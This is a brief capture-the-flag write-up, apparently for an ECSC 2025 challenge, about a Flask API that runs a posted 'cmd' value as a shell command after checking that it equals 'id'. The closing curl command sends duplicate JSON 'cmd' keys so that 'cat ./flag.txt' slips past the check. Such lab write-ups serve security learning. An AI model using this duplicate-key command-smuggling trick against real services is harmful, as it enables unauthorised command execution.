 ```python
@app.get("/")
def index():
    return "You can't connect to this API with your browser. Check the source code."


if __name__ == "__main__":
    app.run(port=5000)
```

The app runs the POST cmd parameter as a linux system command, except it checks if the command = "id" first. The challenge is to bypass the check, as there's a parsing difference between the if check (`command != 'id')` and what gets executed (`payload = f'{{"content":{request.data.decode()}}}'`).

The solve is to submit cmd paramater twice in the request. I did not solve it because when attempting that in Python, the dictionary was choosing only 1 of the 2 submitted values, as Python does not allow dictionaries to have 2 items with the same key. This is the same issue that causes the vuln :p Instead, the request must be sent over curl.

**Solve:**

```bash
curl -X POST https://yaw.ecsc25.hack.cert.pl/run \
-H 'Content-Type: application/json' \
-d '{"cmd":"cat ./flag.txt","cmd":"id"}'
```

